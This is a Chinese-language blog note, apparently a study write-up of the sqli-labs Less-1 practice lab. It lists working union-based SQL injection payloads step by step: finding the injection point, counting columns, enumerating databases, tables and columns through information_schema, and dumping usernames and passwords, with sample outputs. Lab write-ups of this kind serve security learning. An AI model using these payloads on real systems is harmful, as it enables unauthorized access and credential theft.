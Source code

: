 ```yaml
---
title: sqli_lib之less1
toc: true
description: "和 webug 之显错注入一样, 这也是一个 sql 显错注入. 作为最基本的 sql 注入入门, 你需要通过显错注入学到注入的基本思想、步骤以及技术基础。"
summary: "和 webug 之显错注入一样, 这也是一个 sql 显错注入. 作为最基本的 sql 注入入门, 你需要通过显错注入学到注入的基本思想、步骤以及技术基础。"
categories:
    - websec
    - sql injection
date: 2019-07-25 15:38:01
tags:
---
```


虽然有 mysql 注入天书，但是总感觉自己总结一下，学得会更扎实，写给自己看吧。下面解释并不多，主要是记录流程以及 payload。对你来说，你应该自己亲手敲出这些 payload，并且清楚地理解其含义，学会举一反三。

## 检测注入点

在 id=1 后面加一个英文引号，即：?id=1'

报错：....the right syntax to use near ''1'' LIMIT 0,1' at line 1

这里注意 near 后面最外围的引号是报错语句将 sql 语句引起来用的，所以真实的 sql 语句是：'1'' LIMIT 0,1

由此可知

1. 字符型注入，即：php 源码写的是 where id=‘\$id’
2. where 查询后面还有个 limit 一会儿加个注释，注释掉他。

## 猜字段数

?id=-1' order by 3 --+
结果为三个字段，即：此查询语句查询了三个字段。

## 注入相关信息

注意：这里 id = -1' ，将 1 改成-1 是为了让前面查询不到结果，这样查询结果只有我们写的 union 查询后面查询出的结果了。

数据库，系统版本及当前数据库名, 当前登录用户，mysql 数据库的路径等

```php
?id=-1' union select 1,concat_ws(' , ', version(), database(), user(), @@datadir, @@version_compile_os),3 --+
```

回显:
5.5.53 , security , root@localhost , C:\phpStudy\MySQL\data\ , Win32

这里我们知道了，数据库版本：5.5.53，当前数据库的名字 security，当前用户：root，mysql 数据库的路径： C:\phpStudy\MySQL\data\，系统版本：Win32

## 爆数据库名

```php
?id=-1' union select 1,group_concat(distinct schema_name), 3 from information_schema.schemata --+
```

回显: Your Login name:information_schema,challenges,mysql,performance_schema,security,webug,webug_sys,webug_width_byte

这里简单介绍一下，information_schema 中的 schemata 表，存储着 mysql 中所有数据库的数据。包括表名：schema_name，字符集等。

爆数据库名，正规的话就用，information_schema 中的 schemata 表

当然，不正规的方法也有，可以使用 information_schema 中的 tables 表 或者 columns 表。

因为 tables 存储着 table_schema 即每张表位于的数据库，这样又会有很多重复的，所以使用 group_concat(distinct 字段名) 去除重复的，并将其组合成一个以逗号分隔的字符串。

```php
?id=-1' union select 1,group_concat(distinct table_schema), 3 from information_schema.tables --+
```

columns 表也是类似

```php
?id=-1' union select 1,group_concat(distinct table_schema), 3 from information_schema.columns --+
```

## 爆表

列出 security 数据库中的表

```php
?id=-1' union select 1,group_concat(distinct table_name), 3 from information_schema.tables where table_schema='security' --+
```

回显: Your Login name:emails,referers,uagents,users

爆表一般就用 informtion_schema 中的 tables 列，当然你像上面爆库的时候，使用 columns 表中的 table_name 字段和 group_concat(distinct 字段名)

回显：Your Login name:emails,referers,uagents,users

## 爆列

列出 securtiy 库的 users 表中的列名

```php
?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users' --+
```

回显：Your Login name:id,username,password

学到了注入列名的方法，在 columns 表中使用 where 语句查询某个数据库下的某个表的字段名，字段名肯定是不会重复的，所以 group_concat 不用使用 distinct。

## 爆 users 的数据

```php
?id=-1' union select 1,concat_ws(' , ', username, password), 3 from security.users --+
```

回显：Your Login name:Dumb , Dumb

## 总结回顾：

1. 学到了如何注入列名，可以对 webug 显错注入的流程进行改进。
2. 需要系统地学习并总结一下 mysql 的系统数据库，尤其是 information_schema 中的表，并来一篇笔记
3. 对注入流程更加清晰了，再把 sql 注入介绍那篇博文加上 sql 注入流程。

推荐文章：

[你真的会 SQL 注入攻击吗？（下）](https://zhuanlan.zhihu.com/p/22397620)
